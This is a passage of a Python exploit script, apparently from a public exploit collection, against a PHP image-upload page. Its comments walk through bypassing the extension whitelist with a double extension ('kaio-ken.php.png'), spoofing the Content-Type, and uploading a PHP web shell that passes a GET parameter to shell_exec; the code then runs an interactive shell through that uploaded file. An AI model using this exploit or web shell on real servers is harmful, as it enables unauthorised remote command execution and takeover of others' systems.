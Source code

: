 ```py
#     - `upload.php?id=kamehameha`
#     /upload.php:
#        4 $user = $_GET['id'];
#       34       move_uploaded_file($_FILES["file"]["tmp_name"],
#       35       "upload/". $user.".".$ext);
#   3. Bypass the extension whitelist by adding a double extension, with the last one as an acceptable extension (png).
#     /upload.php:
#        5 $allowedExts = array("jpg", "jpeg", "gif", "png","JPG");
#        6 $extension = @end(explode(".", $_FILES["file"]["name"]));
#       14 && in_array($extension, $allowedExts))
#   4. Bypass the file type check by modifying the 'Content-Type' of the 'file' parameter to 'image/png' in the POST request, and set the 'pupload' paramter to 'upload'.
#        7 if(isset($_POST['pupload'])){
#        8 if ((($_FILES["file"]["type"] == "image/gif")
#       11 || ($_FILES["file"]["type"] == "image/png")
#   5. In the body of the 'file' parameter of the POST request, insert the malicious PHP code:
#       <?php echo shell_exec($_GET["telepathy"]); ?>
#   6. The Web Application will rename the file to have the extension with the second item in an array created from the file name; seperated by the '.' character.
#       30           $pic=$_FILES["file"]["name"];
#       31             $conv=explode(".",$pic);
#       32             $ext=$conv['1'];
#   - Our uploaded file name was 'kaio-ken.php.png'. Therefor $conv['0']='kaio-ken'; $conv['1']='php'; $conv['2']='png'; 
#   7. Communicate with the webshell at '/upload.php?id=kamehameha' using GET Requests with the telepathy parameter.

import requests
import sys
import urllib3
import re
from colorama import Fore, Style

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def webshell(SERVER_URL, session):
    try:
        WEB_SHELL = SERVER_URL + 'upload/kamehameha.php'
        getdir = {'telepathy': 'echo %CD%'}
        r2 = session.get(WEB_SHELL, params=getdir, verify=False)
        status = r2.status_code
        if status != 200:
            print(Style.BRIGHT + Fore.RED + "[!] " + Fore.RESET + "Could not connect to the webshell." + Style.RESET_ALL)
            r2.raise_for_status()
        print(Fore.GREEN + '[+] ' + Fore.RESET + 'Successfully connected to webshell.')
        cwd = re.findall('[CDEF].*', r2.text)
        cwd = cwd[0] + "> "
        term = Style.BRIGHT + Fore.GREEN + cwd + Fore.RESET
        while True:
            thought = input(term)
            command = {'telepathy': thought}
            r2 = requests.get(WEB_SHELL, params=command, verify=False)
            status = r2.status_code
            if status != 200:
                r2.raise_for_status()
            response2 = r2.text
            print(response2)
    except:
        print("\r\nExiting.")
        sys.exit(-1)

```